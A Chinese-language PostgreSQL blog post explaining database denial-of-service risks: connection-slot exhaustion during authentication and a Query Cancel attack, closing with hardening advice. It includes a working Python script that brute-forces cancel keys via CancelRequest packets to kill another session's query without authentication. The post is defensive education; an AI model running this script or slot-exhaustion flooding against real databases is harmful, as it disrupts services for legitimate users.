



## PostgreSQL 深入浅出 - 十万个为什么 - 1 为什么数据库也有DOS攻击  
  
### 作者  
digoal  
  
### 日期  
2019-04-22  
  
### 标签  
PostgreSQL , dos , 认证槽 , authentication_timeout , 认证机制 , 认证超时 , slot占用 , 如何防范 , cancel 攻击 , PG通信协议  
  
----  
  
## 背景  
## 1 什么是DDOS或DOS攻击  
DDOS是英文Distributed Denial of Service的缩写，意即“分布式拒绝服务”，那么什么又是拒绝服务(Denial of Service)呢?可以这么理解，凡是能导致合法用户不能够访问正常网络服务的行为都算是拒绝服务攻击。也就是说拒绝服务攻击的目的非常明确，就是要阻止合法用户对正常网络资源的访问，从而达成攻击目的。  
  
我开了一家有五十个座位的重庆火锅店，由于用料上等，童叟无欺。平时门庭若市，生意特别红火，而对面二狗家的火锅店却无人问津。二狗为了对付我，想了一个办法，叫了五十个人来我的火锅店坐着却不点菜，让别的客人无法吃饭。  
  
https://www.zhihu.com/question/22259175  
  
http://sec.chinabyte.com/141/12094641.shtml  
  
## 2 数据库认证过程  
PG支持多种认证方法，例如md5, SCRAM-SHA-256, LDAP, gss, sspi, peer, pam, radius, cert等。  
  
以最常见的md5认证方法为例，如图：  
  
  
  
  
  
PostgreSQL数据库主进程postmaster负责监听客户端请求，当有客户端发送startup报文请求连接数据库时，postmaster主进程收到客户端发起的startup报文后首先通过数据库ACL配置文件pg_hba.conf的配置内容判断来源请求是否符合访问控制策略，是否需要放行，pg_hba.conf的配置格式如下：  
  
```  
# local      DATABASE  USER  METHOD  [OPTIONS]  
# host       DATABASE  USER  ADDRESS  METHOD  [OPTIONS]  
# hostssl    DATABASE  USER  ADDRESS  METHOD  [OPTIONS]  
# hostnossl  DATABASE  USER  ADDRESS  METHOD  [OPTIONS]  
```  
  
如果acl配置可以放行，那么postmaster会FORK一个backend process与客户端交互，backend process发送salt给客户端，并等待客户端发送认证信息包，如图：  
  
  
  
客户端可以在数据库配置的参数authentication_timeout指定的时间内完成认证，如果在指定时间内没有完成认证过程，数据库认为认证超时，释放连接槽。  
  
## 3 为什么数据库也有DOS攻击  
如以上介绍，当客户端请求连接数据库时，postmaster会fork 一个backend process与客户端一对一交互。在客户端完成认证前，已经占用一了个连接槽。所以，客户端可以在不知道密码的情况下，也能发起认证请求，并消耗连接槽。直到认证达到超时参数authentication_timeout的设置，数据库才会释放连接槽。  
  
## 4 如何模拟数据库DOS攻击  
例如当配置了数据库允许的最大连接数为1000时，攻击者可以不断发起连接请求，并且不输入密码，在认证超时前，一致占用连接槽，直到耗尽所有的连接。  
  
当发生数据库DOS攻击时，查询活跃会话视图pg_stat_activity时，你会发现连接数可能不多（因为大量连接槽是被DOS攻击占用的，还没有完成认证，不会出现在活跃会话的视图中），但是已经无法新建连接。  
  
## 5 攻击难度更高的Query Cancel攻击  
数据库端口暴露有什么风险么？    
    
正常情况下，你可能会觉得只要密码足够复杂，同时你设置了合理的ACL（pg_hba.conf配置），数据库端口暴露也没有风险。  
  
但是经过前面的分析，没有密码也能进行DOS攻击，你可能会瑟瑟发抖。例如你的数据库端口暴露在公网，在ACL里面配置了只允许某些来源IP，值允许某些特定的数据库用户访问某些特定的数据库，好像DOS攻击就不存在了，实际上真的高枕无忧吗？   
  
### Query Cancel攻击例子  
目前某个数据库所在服务器有一个公网IP，并且防火墙层面没有拒绝任何来源IP访问数据库的5432监听端口。  
  
数据库配置了ACL只允许unix socket连接，但是监听了所有端口。配置如下：  
  
```  
postgresql.conf  
listen_addresses='0.0.0.0'  
port=5432  
  
pg_hba.conf  
# TYPE  DATABASE        USER            ADDRESS                 METHOD  
# "local" is for Unix domain socket connections only  
local   all             all                                     trust  
```  
    
连接非UNIX SOCKET，都会报如下错误，无法连接到数据库，你觉得这样的pg_hba.conf配置安全么？    
    
```  
postgres@digoal-> psql -h 127.0.0.1  
psql: SSL error: sslv3 alert handshake failure  
FATAL:  no pg_hba.conf entry for host "127.0.0.1", user "postgres", database "postgres", SSL off  
```  
    
我们在这个数据库上运行一个LONG SQL。    
    
```  
postgres=# select pg_backend_pid();  
 pg_backend_pid   
----------------  
          61758  
(1 row)  
postgres=# select pg_sleep(10000);  
```  
    
然后编写一个脚本，目的是通过TCP发Cancel报文给postmaster进程，让postmaster去处理cancel请求。    
    
Cancel报文里面需要告诉postmaster两个值，PID和PID对应的cancel_key。    
  
```  
[root@digoal ~]# vi cancel.py   
#!/usr/bin/python  
import struct  
import socket  
import sys  
  
def pg_cancel_query(pid, cancel_key):  
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
    s.connect(("127.0.0.1",1921))  
    buffer = struct.pack('IIII', socket.htonl(16), socket.htonl((1234<<16)|(5678)),\  
            socket.htonl(int(pid)), socket.htonl(int(cancel_key)))  
    s.send(buffer)  
    # log.info("cancel query %s: return %s" % (query, s.recv(1024)))  
    s.close()   
  
for i in xrange(1,2147483647):  
  pg_cancel_query(int(sys.argv[1]),i)  
```  
    
执行以上脚本   
    
```  
[root@digoal ~]# ./cancel.py 61758  
```  
    
一段时间后，你的这个LONG SQL语句可能会被Cancel掉，报如下错误。    
    
```  
ERROR:  canceling statement due to user request  
```  
    
而在你的日志中可能会有大量的这样的报错，如下    
    
```  
2015-09-29 14:22:41.767 CST,,,61756,"127.0.0.1:28378",560a2e31.cc83,2,"",2015-09-29 14:22:41 CST,,0,LOG,00000,  
"wrong key in cancel request for process 61758",,,,,,,,"processCancelRequest, postmaster.c:2126",""  
```  
    
也就是说，外界在没有密码，同时pg_hba.conf也不允许连接的情况下，还是可以把你的SQL Cancel掉。只要他提供了正确的PID和这个PID对应的cancel_key。    
    
原因是什么？  
  
PostgreSQL为每个backend pid存储了一个cancel_key，这个KEY是一个随机long值。    
  
在PG的通信协议中，有一种Cancel报文，发送这个报文给postmaster时，客户端不需要经过数据库认证的过程，Postmaster进程收到这样的报文，会触发processCancelRequest处理。只要报文提交的PID和对应的cancel key正确，则会给对应PID发送Cancel信号，导致QUERY被中断。      
  
## 6 如何防范数据库DOS以及Cancel攻击  
随意的把数据库端口暴露在不可信环境中，存在很多潜在风险：  
  
1、破解数据库账号密码  
  
2、DOS攻击  
  
3、Cancel攻击  
  
4、数据库漏洞攻击  
  
如何防范数据库DOS以及cancel攻击呢？  
  
1、尽量不要将数据库的监听端口暴露在不可信环境中。  
  
2、如果监听端口一定要暴露，除了数据库ACL配置，建议再使用网络层防火墙，源IP鉴权，过滤非法IP，规避大部分攻击。  
  
3、配置pg_hba.conf，鉴权IP,DB,USER，规避大部分的攻击。  
  
4、配置用户、DB级连接限制，即使被DOS攻击了，也可以保证一部分连接是可以被使用。除非攻击者知道所有的数据库名、用户名，对其进行攻击。否则就占用不掉所有连接。  
  
5、业务上尽量不要使用默认的数据库名，例如template1, postgres。  
  
6、业务上尽量不要使用默认的账号名，例如postgres。  
  
7、数据库内核层面安全加固，对于DOS攻击，例如对于同一个来源IP，如果发起了多个连接请求，并在超时时间内未提供密码或提供的密码有误，可以设置请求阈值，罚时，罚时时间段内拒绝这个来源IP的连接请求。  
  
8、数据库内核层面安全加固，对于Cancel query攻击，如果尝试的KEY连续错了N次，可以设置请求阈值，罚时，罚时时间段内拒绝这个来源IP的Cancel query请求。  
  
## 参考  
[《PostgreSQL 拒绝服务DDOS攻击与防范》](../201812/20181202_03.md)  
  
[《PostgreSQL 连接攻击（类似DDoS）》](../201706/20170629_02.md)    
  
[《SSH服务的几个超时参数 以及 类似DDOS攻击的方法》](../201607/20160722_01.md)  
  
https://www.zhihu.com/question/22259175  
  
http://sec.chinabyte.com/141/12094641.shtml  
  
[《PostgreSQL md5 对比 MySQL - 秘钥认证》](../201610/20161009_01.md)
  
[《PostgreSQL 10.0 preview 安全增强 - SASL认证方法 之 scram-sha-256 安全认证机制》](../201703/20170309_01.md)  
  
https://www.postgresql.org/docs/11/client-authentication.html  
  
[《PostgreSQL cancel 通信协议、信号和代码》](../201509/20150929_02.md)    
  
[《PostgreSQL cancel 安全漏洞》](../201509/20150925_01.md)    
    
https://www.postgresql.org/docs/11/protocol-flow.html  
  
https://www.postgresql.org/docs/11/protocol-message-formats.html  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
#### [PostgreSQL 许愿链接](https://github.com/digoal/blog/issues/76 "269ac3d1c492e938c0191101c7238216")
您的愿望将传达给PG kernel hacker、数据库厂商等, 帮助提高数据库产品质量和功能, 说不定下一个PG版本就有您提出的功能点. 针对非常好的提议，奖励限量版PG文化衫、纪念品、贴纸、PG热门书籍等，奖品丰富，快来许愿。[开不开森](https://github.com/digoal/blog/issues/76 "269ac3d1c492e938c0191101c7238216").  
  
  
#### [9.9元购买3个月阿里云RDS PostgreSQL实例](https://www.aliyun.com/database/postgresqlactivity "57258f76c37864c6e6d23383d05714ea")
  
  
#### [PostgreSQL 解决方案集合](https://yq.aliyun.com/topic/118 "40cff096e9ed7122c512b35d8561d9c8")
  
  
#### [德哥 / digoal's github - 公益是一辈子的事.](https://github.com/digoal/blog/blob/master/README.md "22709685feb7cab07d30f30387f0a9ae")
  
  

  
  
#### [PolarDB 学习图谱: 训练营、培训认证、在线互动实验、解决方案、生态合作、写心得拿奖品](https://www.aliyun.com/database/openpolardb/activity "8642f60e04ed0c814bf9cb9677976bd4")
  
  
#### [购买PolarDB云服务折扣活动进行中, 55元起](https://www.aliyun.com/activity/new/polardb-yunparter?userCode=bsb3t4al "e0495c413bedacabb75ff1e880be465a")
  
  
#### [About 德哥](https://github.com/digoal/blog/blob/master/me/readme.md "a37735981e7704886ffd590565582dd0")
  
